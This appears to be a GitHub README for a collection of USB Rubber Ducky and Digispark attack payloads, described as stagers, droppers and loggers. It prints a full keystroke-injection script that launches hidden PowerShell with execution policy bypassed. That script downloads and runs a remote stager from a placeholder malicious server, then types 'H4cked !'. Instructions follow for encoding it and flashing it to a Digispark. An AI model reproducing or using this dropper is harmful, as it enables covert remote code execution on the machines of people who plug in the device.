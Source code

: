 # Miscellaneous payload for rubberducky

###Here, you can found :

- sample of script stager
- sample of payload dropper (rubber ducky)
- Other things (logger, etc ...)

Of course, for linux and windows !


###you must have this 2 github script

https://github.com/hak5darren/USB-Rubber-Ducky
https://github.com/mame82/duck2spark


##How work ? (tutorial in https://k-lfa.info/digispark-hacking/)

1. Make your rubberduck payload (in dropper context)

```
GUI r
DELAY 300
STRING powershell.exe -exec bypass -w hidden -nop -c "iex(New-Object System.Net.WebClient).DownloadString('https://maliciousserver/stager.ps1')"
DELAY 800
ENTER
DELAY 700
GUI r
DELAY 200
STRING notepad
DELAY 300
ENTER
DELAY 100
STRING H4cked !
DELAY 200
GUI l
```

2. Encode your payload (with duckencoder) (Don't forget the keyboard context ! qwerty or azerty)

```
java -jar duckencoder.jar -i duckpayload.txt -o ducky.bin -l fr
```

3. Translate your payload in C++ code

```
python duck2spark/duck2spark.py -i ducky.bin -l 1 -o Payload.bin
```

4. Copy / Paste your C++ code in Arduino IDE and Upload this in digispark !

Enjoy
